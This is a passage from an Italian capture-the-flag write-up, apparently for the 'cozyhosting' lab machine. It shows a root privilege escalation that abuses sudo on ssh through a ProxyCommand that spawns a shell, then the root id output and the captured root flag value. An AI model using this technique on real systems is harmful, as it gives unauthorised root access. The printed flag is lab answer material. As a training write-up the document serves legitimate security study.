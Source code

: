Non ci resta prova 

```shell-session
josh@cozyhosting:~$ sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
# id
uid=0(root) gid=0(root) groups=0(root)
#
```

e ci prediamo la nostra root_flag

```shell-session
# cat /root/root.txt
cd478fe512380981d5abe499fda7730c
```